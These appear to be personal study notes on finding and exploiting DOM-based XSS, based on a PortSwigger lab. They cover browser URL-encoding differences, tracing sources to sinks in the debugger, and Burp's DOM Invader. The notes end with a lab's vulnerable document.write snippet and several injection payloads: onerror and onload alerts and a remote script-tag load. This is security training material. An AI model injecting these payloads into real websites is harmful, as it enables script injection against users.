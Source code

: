 Note that browsers behave differently with regards to URL-encoding, Chrome, Firefox, and Safari will URL-encode `location.search` and `location.hash`, while IE11 and Microsoft Edge (pre-Chromium) will not URL-encode these sources. If your data gets URL-encoded before being processed, then an XSS attack is unlikely to work.

### Testing JavaScript execution sinks

Testing JavaScript execution sinks for DOM-based XSS is a little harder. With these sinks, your input doesn't necessarily appear anywhere within the DOM, so you can't search for it. Instead you'll need to use the JavaScript debugger to determine whether and how your input is sent to a sink.

For each potential source, such as `location`, you first need to find cases within the page's JavaScript code where the source is being referenced. In Chrome's developer tools, you can use `Control+Shift+F` (or `Command+Alt+F` on MacOS) to search all the page's JavaScript code for the source.

Once you've found where the source is being read, you can use the JavaScript debugger to add a break point and follow how the source's value is used. You might find that the source gets assigned to other variables. If this is the case, you'll need to use the search function again to track these variables and see if they're passed to a sink. When you find a sink that is being assigned data that originated from the source, you can use the debugger to inspect the value by hovering over the variable to show its value before it is sent to the sink. Then, as with HTML sinks, you need to refine your input to see if you can deliver a successful XSS attack.

### Testing for DOM XSS using DOM Invader

Identifying and exploiting DOM XSS in the wild can be a tedious process, often requiring you to manually trawl through complex, minified JavaScript. If you use Burp's browser, however, you can take advantage of its built-in DOM Invader extension, which does a lot of the hard work for you.
## Exploiting DOM XSS with different sources and sinks

In principle, a website is vulnerable to DOM-based cross-site scripting if there is an executable path via which data can propagate from source to sink. In practice, different sources and sinks have differing properties and behavior that can affect exploitability, and determine what techniques are necessary. Additionally, the website's scripts might perform validation or other processing of data that must be accommodated when attempting to exploit a vulnerability. There are a variety of sinks that are relevant to DOM-based vulnerabilities. Please refer to the [list](https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities) below for details.

The `document.write` sink works with `script` elements, so you can use a simple payload, such as the one below:

`document.write('... <script>alert(document.domain)</script> ...');`
### [Laboratory](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)
- in the laboratory we when search one think a js code called
```js
 function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
- we can break and fix 
```html
"><img src=x onerror=alert(1)>
'"><script src='http://127.0.0.1/s.js'></script>//
`"><svg onload=alert(1)>`
```
